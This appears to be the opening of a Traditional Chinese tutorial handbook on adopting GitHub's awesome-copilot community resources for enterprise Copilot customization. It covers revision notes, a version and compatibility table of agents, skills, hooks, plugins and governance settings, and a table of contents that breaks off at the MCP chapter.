+++
date = '2026-08-27T19:22:26+08:00'
draft = false
title = 'Awesome Copilot教學手冊'
tags = ['教學', 'AI開發']
categories = ['教學']
+++

# awesome-copilot 教學手冊

> **企業軟體開發團隊使用 awesome-copilot 建立 AI Agent Development Platform 的完整實戰教科書**
>
> Repository：[`github.com/github/awesome-copilot`](https://github.com/github/awesome-copilot)（owner：GitHub 官方 org，MIT License，38.5k+ Stars、4.9k+ Forks、494 位貢獻者，內容為社群貢獻）
>
> 官方網站：[`awesome-copilot.github.com`](https://awesome-copilot.github.com/)（含 Learning Hub、`llms.txt`）
>
> 查證日期：2026-08-27（初版）／2026-08-28（第二版複查：Repository 現況、External Plugins 審查流程、Plugin 宣告式安裝、企業級 Plugin 標準、VS Code Agent／Skill 規格細節）／2026-08-28（第三版增修：VS Code 官方 Agent Harness／Session Target／Agent Host 定義釐清、Agent Sandboxing、Chat Customizations Evaluations 與 Waza 評測、Agent Customizations 編輯器、Copilot SDK、awesome-copilot AI 供應鏈治理資源盤點）／**2026-08-31（第四版全面複查：Hooks 事件由 6 個擴充為 14 個並新增 Policy Hooks 與 Cloud Agent 執行環境、Agent Skills 官方 frontmatter 與五個探索路徑校正、`managed-settings.json` 完整鍵表與 Sandbox／Telemetry／RemoteControl、企業團隊 `overridable` 覆寫機制、Copilot CLI Skills／Plugin 指令、MCP Allowlist 治理）**
>
> 適用對象：資深軟體工程師、Tech Lead、Software Architect、AI Architect、DevSecOps 工程師
>
> 目的：協助企業軟體開發團隊安全、正確地把 awesome-copilot 的社群資源導入 GitHub Copilot 客製化流程，並建立自己的 Agent / Skill / Plugin / Instructions 標準
>
> 技術情境範例：Vue 3 + TypeScript + Tailwind CSS + PrimeVue（前端）、Java 25 + Spring Boot 4.x + Maven（後端）、PostgreSQL / Oracle / DB2（資料庫）

---

## ⚠️ 重要聲明（請務必先讀）

1. **本手冊是彙整、重組、補充企業導入實務，而不是官方文件的翻譯。** 內容依 `github/awesome-copilot` 官方 Repository（`README.md`、`CONTRIBUTING.md`、`AGENTS.md`、各資源資料夾）與 `docs.github.com`／`code.visualstudio.com` 官方文件逐頁查證後，以繁體中文重新組織、延伸為企業教材，並大量補充 Scenario、AI Prompt 範例、比較表、Checklist 與企業導入建議。

2. **GitHub Copilot 客製化生態系近期變動極大，本手冊撰寫前已重新查證下列六個「會讓整篇教學寫錯」的關鍵變化，全書一律採用查證後的最新說法：**

   | # | 過時說法（網路上仍常見，本手冊不採用） | 目前正確說法（本手冊採用） |
   |---|---|---|
   | 1 | awesome-copilot 有 `chatmodes/`、`prompts/`、`collections/` 資料夾 | 這三個資料夾**已被移除**（GitHub API 查詢回應 404），現行結構是 `agents/`、`instructions/`、`skills/`、`plugins/`、`hooks/`、`cookbook/`、`extensions/`、`workflows/` |
   | 2 | Copilot 的自訂客製化格式叫 `.chatmode.md`（custom chat modes） | 官方已正式更名為 `.agent.md`（**custom agents**），VS Code 官方文件明文說明「功能不變，只是更名」，並建議把既有 `.chatmode.md` 直接改副檔名沿用 |
   | 3 | Copilot 的自動化代理叫 "Copilot coding agent"；GitHub Copilot Extensions 仍是現行客製化機制 | 現行正式名稱是 **"Copilot cloud agent"**；而 **GitHub Copilot Extensions（GitHub App 機制）已於 2025-11-10 23:59 PST 正式日落**，與現行的 **Copilot Plugins（Agent Plugins 1.0，2026-08-12 GA）是完全不同的兩個機制**，絕不可混為一談 |
   | 4 | Copilot Hooks 只有 6 個生命週期事件 | 官方 Hooks Reference 現已列出 **14 個事件**（含 `userPromptTransformed`、`postToolUseFailure`、`preCompact`、`subagentStart`／`subagentStop`、`errorOccurred`、`permissionRequest`、`notification`），且事件名稱同時支援 **camelCase 與 PascalCase 兩種寫法**，PascalCase 會切換成 VS Code 相容的 snake_case payload（見第 13.2 節） |
   | 5 | Agent Skills 只能放在 `.github/skills/` | 官方支援 **五個探索路徑**：專案層 `.github/skills`、`.claude/skills`、`.agents/skills`，個人層 `~/.copilot/skills`、`~/.agents/skills`（見第 8.3 節） |
   | 6 | 企業只能用 `managed-settings.json` 管 Plugin | `managed-settings.json` 現已擴充為完整治理面板，涵蓋 `model`、`permissions`（deny／ask／allow／disableBypassPermissionsMode）、`enabledPlugins`、`extraKnownMarketplaces`、`strictKnownMarketplaces`、`telemetry`、`remoteControl`、`allowedMcpServers`、`deniedMcpServers`、`sandbox` 十大鍵，並支援企業團隊 `overridable` 分層覆寫（見第 20.5 節） |

3. **查證方法論**：本手冊撰寫前，逐一 fetch 並比對了 `github/awesome-copilot` 的 `README.md`、`CONTRIBUTING.md`、GitHub Contents API（確認資料夾真實存在與否）、`docs.github.com/en/copilot` 底下的 Concepts／How-tos／Reference 頁面、`code.visualstudio.com` 的 agent-customization 文件，以及 GitHub Changelog 中與 Copilot cloud agent、Copilot Extensions 日落、Agent Plugins 1.0 GA 相關的公告。所有版本狀態、檔案格式、CLI 指令、frontmatter 欄位皆逐字或近逐字取自官方文件，非憑空杜撰。

4. **awesome-copilot 的正確定位**：這個 Repository **託管在 GitHub 官方 org（`github/awesome-copilot`）底下，但內容本質是「社群貢獻的精選集」**，不是官方產品規格文件。README 與 CONTRIBUTING 文件本身也提醒使用者：安裝任何第三方 Agent、Skill、Plugin、Hook 前都必須自行檢查內容。因此本手冊嚴格區分「GitHub Copilot 官方規格」（一律以 `docs.github.com`／`code.visualstudio.com` 為準）與「awesome-copilot 收錄的社群範例」（僅供參考、安裝前必須審查）。

5. **企業案例聲明**：本手冊出現的企業案例（Web Application 開發、逆向工程、Framework Migration、12 人 Agent Team 等情境）均為**教學示範用途之原創設計**，用於示範如何依照 GitHub Copilot 官方驗證過的格式（`.agent.md`、`SKILL.md`、`plugin.json`、Hooks JSON）打造企業自己的客製化資源，並非 awesome-copilot 官方收錄的真實項目，也非真實客戶專案。

6. **關於其他 AI Coding Agent 的比較**：本手冊在比較 GitHub Copilot 與 Claude Code、OpenAI Codex、Cursor 時，僅對 **GitHub Copilot 欄位**做到逐項官方查證；其餘工具的資訊以各自官方文件既有認知做**定性**比較，並在對應章節明確標示查證信心層級，不會把任一工具的機制直接套用成另一工具的規格。

7. **License 聲明**：awesome-copilot 授權條款請以官方 Repository 的 `LICENSE`（MIT）逐字內容為準，本手冊不構成法律意見。

8. 官方權威來源與研究來源分級，請見第 40 章「References」。

9. **第二版複查（2026-08-28）新增／修正的重點**：`plugin.json` 的內容組合欄位在 awesome-copilot 已改為宣告式的 `extensions.com.github.awesome-copilot`（第 11.3 節已重寫）、外部 Plugin 改走 `plugins/external.json` 的 Issue 審查流程（第 11.5 節新增）、Plugin 可用 `enabledPlugins` 宣告式安裝（第 12.6 節新增）、企業可用 `managed-settings.json` 集中管控 Plugin 標準（第 20.5 節新增）。舊版本手冊若已列印或分發，請以本版為準。

10. **第三版增修（2026-08-28）新增／修正的重點**：VS Code 官方文件已把「**Agent Harness**」定義為 Local／Copilot／Claude／Codex 四種**執行時（runtime）**，與本手冊第 6.6 節所稱的「四種 Copilot 使用介面」是**兩個不同軸線**，第 6.7 節新增專節釐清，並補上 Session Target、Agent Host、Code Isolation（folder／worktree）三個新概念；另新增 Agent Sandboxing（第 20.6 節）、Skill／Agent 品質評測工具鏈 Chat Customizations Evaluations 與 Waza（第 8.11 節）、Agent Customizations 編輯器與使用者客製化遷移（第 9.6 節）、Copilot SDK（第 4.6 節）、awesome-copilot AI 供應鏈治理資源盤點（第 2.9 節）、Troubleshooting 診斷流程（第 27.2 節）、VS Code 原生 Claude／Codex Harness 對跨工具標準的影響（第 33.4 節）。

11. **第四版全面複查（2026-08-31）新增／修正的重點**：本版以「逐章節對照官方一手文件」的方式重新查證全書，主要變更如下：

    | # | 章節 | 第三版內容 | 第四版修正 |
    |---|---|---|---|
    | 1 | 第 13.2、13.7 節 | Hooks 只列 6 個事件 | 擴充為官方 **14 個事件**完整表，新增第 13.7 節說明 Hook 載入優先序、Policy Hooks、Cloud Agent 沙箱限制、Matcher 過濾與 Exit Code 語意 |
    | 2 | 第 8.2、8.3 節 | Skill frontmatter 只提 `name`／`description`；路徑只提 `.github/skills` | 補上官方 `license`、`allowed-tools` 欄位及其資安含意；列出五個官方探索路徑與 `gh skill` |
    | 3 | 第 20.5 節 | `managed-settings.json` 只談 Plugin 治理 | 擴充為十大鍵完整表、四層優先序、`overridable` 團隊覆寫、`sandbox` 子欄位、Permission Selector 語法 |
    | 4 | 第 14.8 節（新增） | 無 | 新增 MCP 企業治理：`allowedMcpServers`／`deniedMcpServers` 交集與聯集語意、URL 正規化防護 |
    | 5 | 第 12.5 節 | CLI 指令不完整 | 補上 `copilot skill`、`/skills` 子指令與 Plugin 相關指令 |
    | 6 | 第 20.6 節 | Agent Sandboxing 描述為一般 Preview | 補上企業端可用 `managed-settings.json` 的 `sandbox` 鍵強制最低限制的實作方式 |
    | 7 | 第 6.6、6.7、37、40 節 | 與官方支援矩陣未同步 | 依官方 Customization Cheat Sheet 重建介面支援矩陣並同步速查表與參考資料；第 6.7 節補上 `chat.agentHost.enabled` 與 worktree 全 harness 支援 |
    | 8 | 第 11.3 節 | MCP 檔名寫成「官方文件不一致、請自行實測」 | 依 awesome-copilot `AGENTS.md` 改寫為明確規則：根目錄 `mcp.json` + `mcp.schema.json` 的 `$schema`，**禁用** `plugin.json` 的 `mcpServers` 與 legacy `.mcp.json`；新增 Plugin 實體化與 namespace 剝除說明 |
    | 9 | 第 11.5 節 | External Plugin 使用**自行推測**的示意 JSON（`source.type`／`source.repository`） | 換上 `plugins/external.json` 真實內容與 Claude Code marketplace spec 欄位（`source.source`／`repo`／`path`／`ref`／`sha`）；補上九個審查標籤、七個 slash 指令、`vally lint` 品質閘與六個月 `closed_at` 重審機制 |
    | 10 | 第 9.7 節（新增） | 無 | 新增 Copilot 內建 Agent 清單（含 `general-purpose` **不發出** subagent 事件的官方例外），並與第 24.4 節企業 Catalog 對照 |
    | 11 | 第 20.7 節（新增） | 無 | 新增權限模型四種核准層級（Default／Assisted／Bypass／Autopilot）、`ChatAgentNetworkFilter`／`BrowserChatTools` 政策，以及 VS Code 側三個 Plugin 政策設定鍵與 CLI 端的命名落差 |
    | 12 | 第 27.2、33.5、37.7、40.8 節 | 診斷入口只有 Debug Panel；跨工具標準缺分發層；Hook 速查範例格式錯誤；無版本對照 | 補上 `/troubleshoot` skill 與其資安提醒、Plugin 分發層跨工具收斂分析、修正 Hook 最小範例為官方 `hooks` 物件格式、新增 VS Code 版本對照表 |
    | 13 | 第 2.1、2.5 節 | 統計為 38.4k／4.8k；誤記 `scripts/` 為文件差異 | 更新為 38.5k／4.9k 與語言組成；確認 `scripts/` 確實存在；補上 AGENTS.md Pre-commit Checklist、`gh aw compile --validate --no-emit`、Issue #1368 與 Discussion #968 |

    舊版本手冊若已列印或分發，請以本版為準。

---

## 符號約定

### Provenance 五層標示

本文以括號文字直接標示於句末或表格欄位中，例如「...（官方已實作）」或「...（建議架構）」。

| 標示 | 意義 | 使用時機 |
|---|---|---|
| **官方已實作** | `docs.github.com`／`code.visualstudio.com`／GitHub Changelog 明確確認已出貨的功能 | 有明確官方文件出處可查 |
| **Source-confirmed** | 只能從 `github/awesome-copilot` Repository 實際目錄結構、`CONTRIBUTING.md`、GitHub Contents API 確認，官方敘述性文件未著墨或有落差 | 本手冊研究團隊直接查看 Repository 結構與 metadata 得到的事實 |
| **建議架構** | 本手冊作者針對企業導入的建議，非官方或 awesome-copilot 原生收錄的資源 | 用於企業落地建議、原創比較表、原創 Agent／Skill／Plugin 範例、Governance/SOP 等延伸說明 |
| **Preview／即將淘汰** | 官方文件明確標示為 Public Preview、Experimental，或已宣告 Deprecated／Sunset | 用於功能仍在變動中或即將移除的項目，例如 GitHub Copilot Extensions |
| **官方目前沒有找到足夠資料確認此功能** | 明確查無資料，或第三方報導與官方一手資料衝突時 | 用於杜絕以訛傳訛，例如各資源分類的精確數量、Canvas Extensions 是否有獨立官方文件頁 |

全書一致使用此標示法。凡整段（而非單句）屬於建議架構的內容，會以區塊引言格式標示：

> ⚠️ 此內容為建議架構，並非 awesome-copilot 官方收錄項目或 GitHub Copilot 官方原生功能。

### Mermaid 圖表慣例

- 所有架構圖、流程圖均以 Mermaid 語法呈現。
- 節點標籤若包含括號、冒號、斜線等特殊字元，一律以雙引號包住整個標籤（例如 `A["Custom Agents (.agent.md)"]`），避免解析錯誤。
- 實線箭頭代表已從官方文件或 Repository 結構確認的關係（Source-confirmed／官方已實作）；虛線箭頭代表建議架構的推論路徑，圖說明會另外標註。

### 程式碼區塊慣例

- 未特別標示「示意」的指令，均為官方文件（`docs.github.com`／`code.visualstudio.com`／`CONTRIBUTING.md`）中可查證的真實指令語法或檔案格式，逐字或近逐字取自原文。
- 標示「示意」的區塊為本手冊為幫助理解而重新撰寫的概念示範，**不是官方逐字引用**。
- 所有 Placeholder（如 `<org>`、`<project-name>`、`ghp_xxx`）在使用前必須替換為實際值，本文不含任何真實 Secret、API Key 或密碼。

### 章節固定小節

重要章節盡量包含以下小節：Scenario（具體案例）、AI Prompt 範例、本章 Checklist。

---

## 版本與相容性速查表

| 項目 | 值 | 來源標示 |
|---|---|---|
| Repository | `github/awesome-copilot`（owner：GitHub 官方 org） | 官方已實作 |
| 定位（README 原文，2026-08-27 複查） | "A community-created collection of custom agents, instructions, skills, hooks, workflows, and plugins to supercharge your GitHub Copilot experience." | Source-confirmed |
| License | MIT | 官方已實作 |
| Stars／Forks／Contributors | 約 38.5k Stars、4.9k Forks、494 位貢獻者（2026-08-31 複查，`github.com/github/awesome-copilot` 頁面） | Source-confirmed |
| 官方網站 | `awesome-copilot.github.com`（含 Learning Hub、`llms.txt`；站台導覽分為 Agents／Instructions／Skills／Canvas Extensions／Plugins／Learning Hub／Contributors） | Source-confirmed |
| 現行頂層資源資料夾 | `agents/`、`instructions/`、`skills/`、`plugins/`、`hooks/`、`workflows/`、`cookbook/`、`extensions/`、`docs/`、`eng/`、`website/`、`.schemas/` | Source-confirmed（GitHub Contents API 實測，2026-08-28 複查） |
| 已移除資料夾 | `chatmodes/`、`prompts/`、`collections/`（皆回 404） | Source-confirmed |
| README 的「What's in this repo」分類 | Agents／Instructions／Skills／Plugins／Cookbook 五類（Hooks 與 Workflows 有獨立目錄但未列在該表中） | Source-confirmed |
| 外部 Plugin（External Plugins） | `plugins/external.json`，僅接受公開 GitHub Repository，須走 Issue 審查流程，核准後每六個月自動 re-review（見第 11.5 節） | Source-confirmed |
| Plugin 宣告式安裝 | `enabledPlugins` 欄位，寫在 `~/.copilot/settings.json`（個人）或 `.github/copilot/settings.json`（Repository）；cloud agent 只支援此方式（見第 12.6 節） | 官方已實作 |
| 企業級 Plugin 標準 | `managed-settings.json` 可定義 Known Marketplaces 與 Default-enabled Plugins（見第 20.5 節） | 官方已實作 |
| `managed-settings.json` 十大鍵 | `model`、`permissions`、`enabledPlugins`、`extraKnownMarketplaces`、`strictKnownMarketplaces`、`telemetry`、`remoteControl`、`allowedMcpServers`、`deniedMcpServers`、`sandbox`（見第 20.5 節） | 官方已實作 |
| 設定優先序（高→低） | MDM-managed → Server-managed → File-based → User-level；但 `sandbox` 與 `permissions.deny`／`ask`／`allow` 以**最嚴格方向**合成（見第 20.5 節） | 官方已實作 |
| MCP 企業治理 | `allowedMcpServers`（多來源取**交集**）、`deniedMcpServers`（多來源取**聯集**，deny 恆優先）；第一方 Copilot Server 不受 deny 限制（見第 14.8 節） | 官方已實作 |
| 預設已註冊的 Marketplace | `copilot-plugins`、`awesome-copilot`（兩者皆為 GitHub 官方預設加入） | 官方已實作 |
| Custom Agents 格式 | `.agent.md`（前身為 `.chatmode.md`，官方已更名） | 官方已實作 |
| Agent Skills | `SKILL.md`，2025-12-18 GA，與 Claude Code `.claude/skills` 相容；遵循開放規範 `agentskills.io/specification`（`name` ≤ 64 字且須等於資料夾名、`description` ≤ 1024 字）；官方 frontmatter 欄位為 `name`（必填）、`description`（必填）、`license`（選填）、`allowed-tools`（選填） | 官方已實作 |
| Agent Skills 探索路徑 | 專案：`.github/skills`、`.claude/skills`、`.agents/skills`；個人：`~/.copilot/skills`、`~/.agents/skills`（見第 8.3 節） | 官方已實作 |
| Agent Skills 規範來源 | 開放標準：[`github.com/agentskills/agentskills`](https://github.com/agentskills/agentskills)；可用 GitHub CLI 的 `gh skill` 搜尋、安裝、更新、發佈 Skill | 官方已實作 |
| Hooks | `.github/hooks/*.json`，**14 個事件**，須存在於 default branch；**單一檔案即可綁定多個事件**（`hooks` 物件以事件名為 key，見第 13.4 節）；事件名支援 camelCase 與 PascalCase 兩套寫法 | 官方已實作 |
| Hooks 載入來源優先序（Copilot CLI） | Policy → Repository（`.github/hooks/*.json`）→ User（`~/.copilot/hooks/`）→ settings.json 內嵌 `hooks` → Plugin 所帶（`hooks.json`）；全部合併執行（見第 13.7 節） | 官方已實作 |
| Plugins | Agent Plugins 1.0（`plugin.json`），2026-08-12 GA，跨廠商開放標準 | 官方已實作 |
| Copilot Extensions（GitHub App） | 已於 2025-11-10 23:59 PST 日落，client-side VS Code chat participant extension 不受影響 | Preview／即將淘汰（已淘汰） |
| Prompt files | `.prompt.md`；`docs.github.com` 與 VS Code 官方頁面**皆仍標示 Public Preview**（2026-08-27 複查，VS Code 頁面另標示「Agent Customizations 編輯器（Preview）」，並有實驗性的「Prompt 遷移至 Skill」功能，顯示官方可能正逐步把 Prompt files 的能力併入 Agent Skills） | Preview |
| MCP | `.vscode/mcp.json` 等多種 client 位置；MCP Registry 為 Public Preview | 官方已實作 |
| Copilot cloud agent | 前身為 "Copilot coding agent"，2026-04 前後正式更名，跑在 GitHub Actions 環境的自主非同步代理 | 官方已實作 |
| Copilot CLI | `npm install -g @github/copilot`，需 Node.js 22+／npm 10+；CLI 本身於 **2026-02-25 GA** | 官方已實作 |
| Copilot Code Review：Agent Skills／MCP | 2026-07-29 GA，代表 PR 自動審查情境也能使用 Agent Skills 與 MCP（見第 14.2 節） | 官方已實作 |
| awesome-copilot MCP Server | Repository 自帶一台 MCP Server，可直接搜尋／安裝庫內資源，**執行需 Docker**（見第 2.8 節） | Source-confirmed |
| `docs/README.*.md` 產生式索引 | `README.agents.md`、`README.instructions.md`、`README.skills.md`、`README.plugins.md`、`README.hooks.md`、`README.workflows.md`，由 CI 自動產生（見第 2.8 節） | Source-confirmed |
| Copilot 使用介面（本手冊沿用「harness」一詞的舊用法） | VS Code、Copilot CLI、GitHub Copilot app（桌面程式）、Copilot cloud agent 四種；客製化支援度不一（見第 6.6 節） | 官方已實作 |
| VS Code 官方定義的 Agent Harness | **Local／Copilot／Claude／Codex** 四種執行時；由 Chat 輸入框的 **Session Target** 控制項選擇（見第 6.7 節） | 官方已實作 |
| Agent Host | 獨立於視窗之外的 Agent 執行程序，讓工作階段可背景執行、跨視窗同步、遠端執行；Copilot harness 即跑在其上 | 官方已實作 |
| Code Isolation | Folder isolation（直接改當前工作區）／Worktree isolation（另開 Git worktree）；**worktree 是程式碼隔離邊界，不是安全邊界** | 官方已實作 |
| Agent Sandboxing | OS 層級檔案系統與網路隔離，套用於 `runInTerminal`；macOS 用 Seatbelt、Linux／WSL2 需 `bubblewrap` + `socat`；WSL1 不支援（見第 20.6 節） | Preview |
| 客製化檔案品質評測 | Chat Customizations Evaluations 擴充套件（Preview）＋ `microsoft/waza` 評測框架，可分析 `SKILL.md`／`*.agent.md`／`*.instructions.md`／`*.prompt.md`（見第 8.11 節） | Preview |
| Monorepo 父倉庫發現 | `chat.useCustomizationsInParentRepositories`（**預設關閉**），向上尋找 `.git` 後收集其間所有層級的客製化；涵蓋所有客製化類型含 Hooks（見第 6.4 節） | 官方已實作 |
| 一律載入的指令檔名 | `copilot-instructions.md`、`AGENTS.md`、**`CLAUDE.md`**（VS Code 三者皆視為 always-on instructions） | 官方已實作 |
| Copilot SDK | Copilot harness 的底層 SDK，亦可供企業自行開發 Agent 應用；awesome-copilot `cookbook/` 收錄範例（含 Java 範例，見第 4.6 節） | 官方已實作 |

---

<!-- TOC-AUTO-BEGIN -->

## 目錄（Table of Contents）

> 本目錄涵蓋全書 41 章與所有編號小節，可直接點擊跳轉。未編號的固定小節（Scenario／AI Prompt 範例／本章 Checklist）因每章重複出現，未列入目錄，請於各章末尾閱讀。

**Part I：核心觀念與定位**

- [1. Executive Summary：5 分鐘理解 awesome-copilot](#1-executive-summary5-分鐘理解-awesome-copilot)
  - [1.1 awesome-copilot 是什麼](#11-awesome-copilot-是什麼)
  - [1.2 為什麼值得使用](#12-為什麼值得使用)
  - [1.3 可以解決什麼問題](#13-可以解決什麼問題)
  - [1.4 如何協助 AI Agent 開發](#14-如何協助-ai-agent-開發)
  - [1.5 如何協助 Web Application 開發](#15-如何協助-web-application-開發)
  - [1.6 如何協助 Legacy Reverse Engineering](#16-如何協助-legacy-reverse-engineering)
  - [1.7 如何協助 Framework Migration](#17-如何協助-framework-migration)
  - [1.8 如何協助 Security](#18-如何協助-security)
  - [1.9 如何導入企業](#19-如何導入企業)
  - [1.10 最推薦的使用方式](#110-最推薦的使用方式)
- [2. awesome-copilot 是什麼：官方生態系定位](#2-awesome-copilot-是什麼官方生態系定位)
  - [2.1 Repository 基本事實](#21-repository-基本事實)
  - [2.2 Community-created resources 的概念](#22-community-created-resources-的概念)
  - [2.3 Awesome Copilot Website、Learning Hub、llms.txt](#23-awesome-copilot-websitelearning-hubllmstxt)
  - [2.4 Resource Discovery 與 Marketplace](#24-resource-discovery-與-marketplace)
  - [2.5 社群貢獻模式](#25-社群貢獻模式)
  - [2.6 如何挑選第三方 Agent／Skill／Plugin](#26-如何挑選第三方-agentskillplugin)
  - [2.7 安全性與供應鏈風險](#27-安全性與供應鏈風險)
  - [2.8 docs/、eng/ 與 awesome-copilot MCP Server](#28-docseng-與-awesome-copilot-mcp-server)
  - [2.9 awesome-copilot 的 AI 供應鏈與 Agent 治理資源盤點](#29-awesome-copilot-的-ai-供應鏈與-agent-治理資源盤點)
- [3. 整體架構：GitHub Copilot 客製化五層模型](#3-整體架構github-copilot-客製化五層模型)
  - [3.1 分層架構圖](#31-分層架構圖)
  - [3.2 各層如何協作](#32-各層如何協作)
  - [3.3 與 awesome-copilot 資料夾的對應關係](#33-與-awesome-copilot-資料夾的對應關係)
- [4. Resource Model 完整介紹](#4-resource-model-完整介紹)
  - [4.1 資源類型總覽表](#41-資源類型總覽表)
  - [4.2 Agentic Workflows（gh-aw）補充說明](#42-agentic-workflowsgh-aw補充說明)
  - [4.3 Cookbook 補充說明](#43-cookbook-補充說明)
  - [4.4 Canvas Extensions 補充說明](#44-canvas-extensions-補充說明)
  - [4.5 GitHub Copilot app 與 Automations（新增）](#45-github-copilot-app-與-automations新增)
  - [4.6 Copilot SDK 與 Agent Host](#46-copilot-sdk-與-agent-host)
- [5. Agents／Instructions／Skills／Hooks／Plugins／MCP 核心差異](#5-agentsinstructionsskillshookspluginsmcp-核心差異)
  - [5.1 比較表](#51-比較表)
  - [5.2 用實際軟體工程案例對照](#52-用實際軟體工程案例對照)
  - [5.3 核心心法](#53-核心心法)

**Part II：Repository 建置與客製化深入**

- [6. Repository 目錄結構](#6-repository-目錄結構)
  - [6.1 企業 Web Application Repository 建議配置](#61-企業-web-application-repository-建議配置)
  - [6.2 哪些目錄屬於哪個系統](#62-哪些目錄屬於哪個系統)
  - [6.3 Project Scope 與 Personal Scope](#63-project-scope-與-personal-scope)
  - [6.4 Root Level、Nested 與 Monorepo 設定](#64-root-levelnested-與-monorepo-設定)
  - [6.5 不同 Copilot Client 的支援差異](#65-不同-copilot-client-的支援差異)
  - [6.6 四種 Harness 的選用與設定檔對照](#66-四種-harness-的選用與設定檔對照)
  - [6.7 Session Target、Agent Harness 與 Code Isolation](#67-session-targetagent-harness-與-code-isolation)
- [7. AGENTS.md、copilot-instructions.md 與 *.instructions.md 深入比較](#7-agentsmdcopilot-instructionsmd-與-instructionsmd-深入比較)
  - [7.1 三者比較表](#71-三者比較表)
  - [7.2 AGENTS.md 支援矩陣](#72-agentsmd-支援矩陣最容易寫錯的一段務必逐字核對官方原文)
  - [7.3 VS Code 設定開關](#73-vs-code-設定開關)
  - [7.4 指令優先順序](#74-指令優先順序)
  - [7.5 applyTo 語法範例](#75-applyto-語法範例)
  - [7.6 企業 Web Application 完整範例](#76-企業-web-application-完整範例)
- [8. Skills 深入教學與四個企業 Skill 範例](#8-skills-深入教學與四個企業-skill-範例)
  - [8.1 Agent Skills 的概念](#81-agent-skills-的概念)
  - [8.2 SKILL.md Frontmatter](#82-skillmd-frontmatter)
  - [8.3 Skill Directory 與存放位置](#83-skill-directory-與存放位置)
  - [8.4 自動發現與三段式漸進載入](#84-自動發現與三段式漸進載入)
  - [8.5 觸發方式](#85-觸發方式)
  - [8.6 Skill Lifecycle、Versioning、Testing、Security](#86-skill-lifecycleversioningtestingsecurity)
  - [8.7 Skill 1：Web Application Development](#87-skill-1web-application-development)
  - [8.8 Skill 2：Reverse Engineering](#88-skill-2reverse-engineering)
  - [8.9 Skill 3：Framework Migration](#89-skill-3framework-migration)
  - [8.10 Skill 4：Security Review](#810-skill-4security-review)
  - [8.11 Skill 與客製化檔案的品質評測：Chat Customizations Evaluations 與 Waza](#811-skill-與客製化檔案的品質評測chat-customizations-evaluations-與-waza)
- [9. Custom Agents 深入教學與企業 Agent Team](#9-custom-agents-深入教學與企業-agent-team)
  - [9.1 從 .chatmode.md 到 .agent.md（重要遷移段落）](#91-從-chatmodemd-到-agentmd重要遷移段落)
  - [9.2 .agent.md 完整 Frontmatter 欄位](#92-agentmd-完整-frontmatter-欄位)
  - [9.3 存放位置與組織層共享](#93-存放位置與組織層共享)
  - [9.3.1 Agent 的建立與管理入口（官方已實作）](#931-agent-的建立與管理入口官方已實作)
  - [9.4 企業 Agent Team Catalog（12 個 Agent）](#94-企業-agent-team-catalog12-個-agent)
  - [9.5 完整 .agent.md 範例](#95-完整-agentmd-範例)
  - [9.6 Agent Customizations 編輯器與使用者客製化遷移](#96-agent-customizations-編輯器與使用者客製化遷移)
  - [9.7 內建 Agent（Built-in Agents）與 Subagent 事件](#97-內建-agentbuilt-in-agents與-subagent-事件)
    - [9.7.1 內建 Agent 清單（官方已實作，2026-08-31 查證）](#971-內建-agent-清單官方已實作2026-08-31-查證)
    - [9.7.2 企業如何定位內建 Agent（建議架構）](#972-企業如何定位內建-agent建議架構)
- [10. Agent Team 協作架構](#10-agent-team-協作架構)
  - [10.1 協作拓樸圖](#101-協作拓樸圖)
  - [10.2 Agent Delegation 與 Handoff](#102-agent-delegation-與-handoff)
  - [10.3 Context Management 與 Shared Artifacts](#103-context-management-與-shared-artifacts)
  - [10.4 Review Gates 與 Human Approval](#104-review-gates-與-human-approval)
  - [10.5 Failure Recovery](#105-failure-recovery)
- [11. Plugins 深入教學與企業 Plugin 範例](#11-plugins-深入教學與企業-plugin-範例)
  - [11.1 Plugin 概念（Agent Plugins 1.0）](#111-plugin-概念agent-plugins-10)
  - [11.2 Plugins vs Copilot Extensions（絕不可混寫）](#112-plugins-vs-copilot-extensions絕不可混寫)
  - [11.3 plugin.json Schema 與目錄結構](#113-pluginjson-schema-與目錄結構)
  - [11.4 完整企業 Plugin 範例：Enterprise Web Development Plugin](#114-完整企業-plugin-範例enterprise-web-development-plugin)
  - [11.5 External Plugins：plugins/external.json 與審查流程](#115-external-pluginspluginsexternaljson-與審查流程)
- [12. Plugin 安裝與管理](#12-plugin-安裝與管理)
  - [12.1 Marketplace Discovery](#121-marketplace-discovery)
  - [12.2 Plugin 安裝、更新、移除、啟用／停用（企業自建 Plugin）](#122-plugin-安裝更新移除啟用停用企業自建-plugin)
  - [12.3 Version Management 與 Dependency Management](#123-version-management-與-dependency-management)
  - [12.4 VS Code 使用方式](#124-vs-code-使用方式)
  - [12.5 Copilot CLI 使用方式](#125-copilot-cli-使用方式)
    - [12.5.1 Plugin 相關指令](#1251-plugin-相關指令)
    - [12.5.2 Skill 相關指令（第四版新增，官方已實作）](#1252-skill-相關指令第四版新增官方已實作)
  - [12.6 宣告式安裝：enabledPlugins](#126-宣告式安裝enabledplugins)
- [13. Hooks 深入教學](#13-hooks-深入教學)
  - [13.1 定義與 Lifecycle](#131-定義與-lifecycle)
  - [13.2 十四個生命週期事件（第四版全面改寫）](#132-十四個生命週期事件第四版全面改寫)
    - [13.2.1 事件總表（官方已實作，2026-08-31 查證）](#1321-事件總表官方已實作2026-08-31-查證)
    - [13.2.2 事件名稱的兩種寫法：camelCase 與 PascalCase](#1322-事件名稱的兩種寫法camelcase-與-pascalcase)
    - [13.2.3 Hook 的三種型別](#1323-hook-的三種型別)
    - [13.2.4 決策控制與 Matcher 過濾](#1324-決策控制與-matcher-過濾)
    - [13.2.5 Exit Code 與 Fail-Open／Fail-Closed 語意（資安關鍵）](#1325-exit-code-與-fail-openfail-closed-語意資安關鍵)
    - [13.2.6 permissionRequest 與 Sandbox Bypass 例外](#1326-permissionrequest-與-sandbox-bypass-例外)
  - [13.3 設定檔格式與關鍵限制](#133-設定檔格式與關鍵限制)
  - [13.4 Pre-Change Quality Gate Hook 範例](#134-pre-change-quality-gate-hook-範例)
  - [13.5 Agent Workflow Hook 範例](#135-agent-workflow-hook-範例)
  - [13.6 安全性、Logging、Failure Handling](#136-安全性loggingfailure-handling)
  - [13.7 Hook 檔案位置、載入優先序與 Cloud Agent 限制](#137-hook-檔案位置載入優先序與-cloud-agent-限制)
    - [13.7.1 Copilot CLI 的五個載入來源（官方已實作）](#1371-copilot-cli-的五個載入來源官方已實作)
    - [13.7.2 Copilot cloud agent 的執行環境限制（官方已實作）](#1372-copilot-cloud-agent-的執行環境限制官方已實作)
- [14. MCP 整合](#14-mcp-整合)
  - [14.1 MCP 是什麼](#141-mcp-是什麼)
